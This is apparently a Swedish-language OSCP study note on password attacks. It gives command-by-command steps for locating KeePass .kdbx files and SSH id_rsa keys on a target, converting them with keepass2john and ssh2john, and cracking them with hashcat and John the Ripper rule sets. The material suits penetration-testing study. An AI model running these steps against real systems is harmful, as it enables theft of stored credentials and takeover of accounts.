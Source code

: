 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/4-kee-pass-and-ssh-key-crack/","updated":"2024-01-05T11:34:54.755+01:00"}
---
```


### KeePass Hash Crack:
1. Lokalisera databas-filen:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
2. För över filen till Linux.
3. Konvertera den till hash-format:
```bash
keepass2john Database.kdbx > keepass.hash
```
4. Redigera filen och ta bort eventuellt "användarnamn"
5. Ta reda på hash-ID:t för Hashcat:
```bash
hashcat --help | grep -i "KeePass"
```
6. Förbered eventuell regel fil som '.rule'
7. Cracka skiten:
```bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
8. Öppna databasen med "kpcli":
```

```

------------------

### SSH-key Crack:
1. Lokalisera id_rsa-fil och för över till lokal angriparmaskin.
2. Konvertera till hash-format:
```bash
ssh2john id_rsa > ssh.hash
```
3. Skapa regelfil om behövs, och lägg till obligatorisk första rad. Ex.
```
[List.Rules:<regelnamn>]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
4. Appenda nya regelfilen till /etc/john/john.conf:
```bash
sudo sh -c 'cat <regelfil> >> /etc/john/john.conf'
```
5. Cracka skiten:
```bash
john --wordlist=<ordlista> --rules=<regelnamn> ssh.hash
```

---------------------

### John hash-cracking:
``` bash
#Ta reda på hashtypen
hashid -e -j '<hash>'
hash-identifier <hash>

#Cracka med dictionary
john --wordlist=rockyou.txt --rules=regelnamn --format=<hashidformat> hash.txt

#Visa hashen igen
john --show pass.txt
```

Best john rules: https://charlesreid1.com/wiki/John_the_Ripper/Rules#Install_the_Rules

List all John rules:
```
for ruleset in `grep KoreLogicRules /etc/john/john.conf | cut -d: -f 2 | cut -d\] -f 1`; do echo ${ruleset}; done
```

